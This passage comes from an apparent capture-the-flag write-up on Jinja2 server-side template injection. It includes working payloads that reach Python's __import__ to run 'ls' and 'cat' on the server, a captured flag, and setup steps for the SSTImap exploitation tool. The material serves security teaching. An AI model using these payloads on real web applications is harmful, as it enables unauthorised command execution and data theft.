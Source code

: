 ```jinja2
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```

![](../images/Pasted%20image%2020250505180105.png)

As seen, we got the hidden file, let's read it:

```jinja2
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['cat', '5d8bea6df83cbb6767a235c4ba54933b.txt'])}}
```

![](../images/Pasted%20image%2020250505180211.png)

We got our flag:

```
THM{ecc43642dd6934d37c69598174e6e126}
```

# Automating the Exploitation
---

**SSTImap** is a tool that automates the process of testing and exploiting SSTI vulnerabilities in various template engines. Hosted on [GitHub](https://github.com/vladko312/SSTImap), it provides a framework for discovering template injection flaws.

If you're using AttackBox, the tool is installed in `/opt/SSTImap` directory. If you're using your own machine, you can install it by cloning the repository from GitHub and setting up its environment. Here's how you can get started:

1. **Clone the Repository**:
    
    ```bash
    git clone https://github.com/vladko312/SSTImap.git
    ```
    
2. **Navigate to the SSTImap Directory**:
    
    ```bash
    cd SSTImap
    ```
    
3. **Install Dependencies** (if any are listed, usually via a `requirements.txt`):
    
    ```bash
    pip install -r requirements.txt
    ```
    

SSTImap is capable of the following:

- **Template Engine Detection**: SSTImap can help identify the template engine used by a web application, which is crucial for crafting specific exploits.
- **Automated Exploitation**: For known vulnerabilities, SSTImap can automate the process of exploiting them.
